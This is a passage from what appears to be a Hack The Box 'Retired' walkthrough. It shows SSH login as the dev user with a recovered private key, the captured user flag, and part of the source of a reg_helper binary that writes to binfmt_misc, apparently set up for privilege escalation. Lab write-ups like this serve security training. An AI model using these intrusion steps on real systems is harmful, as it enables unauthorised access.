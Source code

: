 ## SSH As Dev

Now we can paste that key in to a file on Kali and ssh in as the dev user:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# nano id_rsa           

┌──(root㉿kali)-[~/htb/retired]
└─# chmod 600 id_rsa         

┌──(root㉿kali)-[~/htb/retired]
└─# ssh -i id_rsa dev@10.10.11.154 
Last login: Mon Mar 28 11:36:17 2022 from 10.10.14.23
dev@retired:~$
```

Let's grab the user flag before moving on:

```sh
dev@retired:~$ cat user.txt 
1908e78d7623086e78a6a7261db3528f
```

Looking in our home folder we find an interesting folder:

```sh
dev@retired:~$ ls -l
4 drwx------ 2 dev  dev  4096 Mar 11 14:36 activate_license
4 drwx------ 3 dev  dev  4096 Mar 11 14:36 emuemu
4 -rw-r----- 1 root dev    33 Jun 24 05:11 user.txt
```

What is emuemu? Let's look:

```sh
dev@retired:~$ cd emuemu/
dev@retired:~/emuemu$ ls -l
-rw------- 1 dev dev   673 Oct 13  2021 Makefile
-rw------- 1 dev dev   228 Oct 13  2021 README.md
-rw------- 1 dev dev 16608 Oct 13  2021 emuemu
-rw------- 1 dev dev   168 Oct 13  2021 emuemu.c
-rw------- 1 dev dev 16864 Oct 13  2021 reg_helper
-rw------- 1 dev dev   502 Oct 13  2021 reg_helper.c
drwx------ 2 dev dev  4096 Mar 11 14:36 test
```

THe README.md tells us about a software emulator but looking at the files it's not yet written. The reg_helper binary sounds interesting, we can see the source code of it in the .c file:

```c
dev@retired:~/emuemu$ cat reg_helper.c 
#define _GNU_SOURCE

#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

int main(void) {
    char cmd[512] = { 0 };

    read(STDIN_FILENO, cmd, sizeof(cmd)); cmd[-1] = 0;

    int fd = open("/proc/sys/fs/binfmt_misc/register", O_WRONLY);
    if (-1 == fd)
        perror("open");
```
